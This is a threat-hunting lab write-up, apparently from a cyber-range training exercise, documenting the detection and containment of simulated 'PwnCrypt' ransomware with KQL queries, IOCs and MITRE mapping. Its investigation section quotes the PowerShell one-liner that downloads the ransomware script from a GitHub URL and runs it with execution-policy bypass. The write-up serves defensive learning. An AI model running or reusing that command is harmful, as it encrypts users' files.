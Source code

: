 

# Zero-Day Ransomware (PwnCrypt) Outbreak Project 
## 🛡️ Incident Report: PwnCrypt Ransomware Detection and Containment

# Objective:
Identify any suspicious zero-day PwnCrypt ransomware infection, isolate the affected system, and prevent lateral movement within the corporate network.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---



## 1. Summary
Incident Title: PwnCrypt Ransomware Detection and Containment <br />
Date Identified: June 21, 2025 <br />
Reported By: Security Operations Team <br />
Affected Asset: fe-vmlab (Windows Endpoint) <br />
Investigator: Fe Esguerra <br />
Severity: High <br />


## 2. Preparation
### Goal:
A newly identified ransomware variant known as PwnCrypt has been reported in the wild. This strain uses a PowerShell-based payload to encrypt files on compromised systems with AES-256 encryption. It specifically targets directories such as C:\Users\Public\Desktop, appending a .pwncrypt tag to file names (e.g., hello.txt becomes hello.pwncrypt.txt). Due to the potential risk of this ransomware spreading within the corporate environment, the CISO has requested a proactive investigation across the organization’s systems.


### Hypothesis:
Given the organization's relatively immature security posture—particularly the lack of user awareness training—there is a credible concern that the ransomware may already be present within the network. The investigation should begin by searching for known indicators of compromise (IOCs), such as files containing the .pwncrypt string in their names.


## 3. Data Collection
### Data Sources Queried:
#### DeviceFileEvents
```kql
DeviceFileEvents
| take 20
```
![zero1](https://github.com/user-attachments/assets/e8264fa2-66b3-471d-ac3f-9c84f497029d)

```kql
DeviceFileEvents
| where DeviceName == "fe-vmlab"
| order by Timestamp desc 

```
![zero2](https://github.com/user-attachments/assets/45932041-4d9e-4f3b-b0f9-536382eee67c)



## 4. Data Analysis

#### DeviceFileEvents
```kql
let VMName = "fe-vmlab";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains "_pwncrypt"
| order by Timestamp desc
```

![zero-day](https://github.com/user-attachments/assets/c91508e3-0f13-4170-a35e-53276ee4b864)

#### DeviceProcessEvents
```kql
let VMName = "fe-vmlab";
let specificTime = datetime(2025-06-21T17:21:52.5530575Z);
DeviceProcessEvents
| where DeviceName == VMName
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc

```

![zero4](https://github.com/user-attachments/assets/c05a2b44-f070-4ef9-9dee-fffab6fe2fd5)

#### Findings

Upon reviewing the PowerShell script, it was observed that it performs the following actions:

- Downloads another PowerShell script from a GitHub repository

- Saves the downloaded script to C:\ProgramData\pwncrypt.ps1

- Executes the script while bypassing the system’s configured execution policy

![zero5](https://github.com/user-attachments/assets/2d747650-a6d6-4b26-9e0f-77b94ef44264)



## 5. Investigation

### Initial Discovery
•	Source of Threat: PowerShell command run locally on the host:
```ps
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

### Observed Behavior: Files on the desktop were encrypted with _pwncrypt added to their names (e.g., report.docx_pwncrypt.docx).
#### Indicators of Compromise (IOCs)
-	File name patterns: *pwncrypt*
-	Command-line execution from PowerShell
-	Location: C:\ProgramData\pwncrypt.ps1
-	Network activity: None observed during encryption window
####  Timeline of Events
Time (UTC)	Event
17:21:52	.pwncrypt file detected in DeviceFileEvents
±3 mins	PowerShell script downloaded and executed from GitHub
Immediate	Files began being encrypted and renamed
Shortly after	Host fe-vmlab was isolated from the network



## 6. Response
### Actions Taken:

- Isolated the host from the network. 
- Reimaging of the affected endpoint.


## 7. MITRE ATT&CK Mapping

- T1059.001 – PowerShell  
- T1204.002 – User Execution: Malicious File  
- T1105 – Ingress Tool Transfer  
- T1486 – Data Encrypted for Impact  
- T1005 – Data from Local System  
- T1036 – Masquerading (potential)  
- T1027 – Obfuscated Files or Information (potential)


## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Device Action: Ticket submitted for full rebuild




